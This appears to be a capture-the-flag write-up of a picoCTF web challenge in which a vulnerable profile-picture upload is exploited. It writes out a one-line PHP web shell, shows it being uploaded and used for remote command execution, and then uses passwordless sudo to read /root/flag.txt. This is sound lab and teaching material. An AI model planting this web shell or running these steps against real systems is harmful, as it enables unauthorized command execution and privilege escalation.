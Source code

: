 ## 📄 Description
A developer added a profile picture upload feature to a website. However, it is vulnerable. Your goal is to explore the page, exploit the file upload functionality, and retrieve the hidden flag located in the `/root` directory.

## Solution Steps
- First, check how the web uploads files, including what language it uses and how file structure is.
- Examine the page source using `ctrl + u` : 
  <img width="1864" height="891" alt="image (1)" src="https://github.com/user-attachments/assets/0eeba5b2-2b45-4ac6-b154-727731204f18" />

- The site uses upload.php and stores uploaded files in the uploads/[file] directory
- For testing, we'll upload a web shell file named `shell.php` containing `<?php system($_GET['cmd']); ?>`. This file will give us **remote command execution (RCE)** from the browser. If successfully uploaded, we can run shell commands like `pwd, ls, cat` etc.
- After uploading shell.php, we see a confirmation message: `The file shell.php has been uploaded Path: uploads/shell.php`
  <img width="640" height="138" alt="image" src="https://github.com/user-attachments/assets/5273e2f5-ee35-4d23-baaf-28eb04478938" />
- We can now execute commands by accessing `http://standard-pizzas.picoctf.net:58432/uploads/shell.php?cmd=ls` which will display the contents of the uploads directory
  <img width="818" height="149" alt="image" src="https://github.com/user-attachments/assets/7bd80118-ff11-45bb-8e60-b6755f220e5e" />
- Next, we need to navigate to the /root folder, but first we should check our current location using the pwd command
  <img width="815" height="141" alt="image" src="https://github.com/user-attachments/assets/b1c6d7b5-4a9f-4d54-bcca-abf2d2c89577" />
- Since direct access to /root is denied (can't use ls /root directly), we'll run `sudo -l` to list commands we can run with sudo. This returns:
  <img width="1832" height="158" alt="image" src="https://github.com/user-attachments/assets/958dd189-e38b-4662-82a5-f41e89673b45" />
This means we can run any command as any user (including root) without a password
- We can now run `sudo ls /root` which shows flag.txt
  <img width="909" height="156" alt="image" src="https://github.com/user-attachments/assets/b808b732-3669-4757-b8b8-5e8012d8aab4" />
- so we execute `sudo cat /root/flag.txt` to show the flag
<img width="1001" height="141" alt="image" src="https://github.com/user-attachments/assets/5ba63396-114b-4807-8be7-21a408bc8372" />
